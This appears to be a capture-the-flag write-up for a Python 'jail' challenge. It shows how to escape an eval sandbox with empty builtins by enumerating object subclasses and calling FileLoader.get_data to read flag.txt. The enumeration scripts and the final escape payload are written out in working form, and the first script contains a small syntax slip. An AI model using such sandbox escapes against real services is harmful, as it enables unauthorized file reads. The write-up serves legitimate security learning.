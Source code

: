 
### Builtins 1

![builtins_1](https://github.com/Hed6eH0g/ctf/blob/main/2023/byuctf/jail/builtins/figs/builtins_0.png)

Since the challenge specifies the python version, we begun with building a python container with the corresponding version.
Then, a brief survey with the string `eval(input("code> "), {"__builtins__": {}}, {"__builtins__": {}}` leads us to [a post in the hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#builtins) and found that `().__class__.__bases__[0].__subclasses__()` allows us to look for some useful methods.

Thus, we make the following code to enumerate the list of available methods in the subclasses. 
```
c = ().__class__.__bases__[0].__subclasses__()
# print(c)
# print('')
i = 0
for ci in c:
    print(f'{i}: {ci})
    import inspect
    for m in inspect.getmembers(ci):     
        print(m)
    print('')
    print(' =================== ')       
    print('')
    i += 1
```

After checking the list briefly, we further modified the code to reduce candidates of methods as follows:
```
c = ().__class__.__bases__[0].__subclasses__()
# print(c)
# print('')
i = 0
for ci in c:
    # print(ci)
    import inspect
    get_list = []
    read_list = []
    for m in inspect.getmembers(ci):     
        if 'get' in m[0]:
            if 'getstate' in m[0] or 'getattr' in m[0]:
                continue
            get_list.append(m)
        if 'read' in m[0]:
            read_list.append(m)

            # print(m)
    if len(get_list) > 0 or len(read_list) > 0:
        print(f'{i}: {ci}')
        if len(get_list) > 0:
            for gi in get_list:
                print(gi)
        if len(read_list) > 0:
            for ri in read_list:
                print(ri)
        print('')
        print(' =================== ')   
        print('')
    i += 1

```

This allowed us to find that there is 'get_data', and examining `().__class__.__bases__[0].__subclasses__()[124].get_data()` returns the error `TypeError: FileLoader.get_data() missing 2 required positional arguments: 'self' and 'path'`. 
Thus, what we need to do next is filling up the arguments `self` and `path`, and found that `().__class__.__bases__[0].__subclasses__()[124].get_data('', 'flag.txt')` allowed us to access the flag.
